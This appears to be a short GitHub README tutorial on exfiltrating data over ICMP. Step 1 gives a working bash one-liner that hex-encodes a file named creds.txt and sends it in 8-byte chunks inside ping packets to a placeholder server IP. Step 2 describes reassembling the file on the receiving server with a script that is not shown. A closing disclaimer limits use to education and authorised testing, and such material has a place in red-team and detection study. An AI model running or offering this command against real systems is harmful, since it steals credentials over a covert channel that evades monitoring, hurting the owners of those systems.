 # Data Exfiltration via ICMP

-Step 1 )> Run the following command on the client server from linux command line:
```bash
xxd -p -c 8 creds.txt | while read h; do ping -c 1 -p $h <Server-IP>; done
```

<img width="1409" height="552" alt="icmp_1" src="https://github.com/user-attachments/assets/fdbe63ae-18b0-450f-8bd2-ee8d4d881f8e" />

  - Here, we are reading the target file in fixed-size chunks and sent each chunk to our server (8 bytes) by embedding it into ICMP packets, effectively exfiltrating the data bit by bit.


Step 2 )> Run the ```icmp.py``` script on your server to capture incoming ICMP packets and extract the embedded data, and then reassemble the original file to reconstruct it fully.

<img width="1333" height="329" alt="icmp_2" src="https://github.com/user-attachments/assets/43263079-232e-4410-a0ac-a949d2a6b28f" />

Disclaimer: This is for educational and defensive use only. Do not perform unauthorized testing, exploitation, or data exfiltration against systems you do not own or have explicit written permission to test.
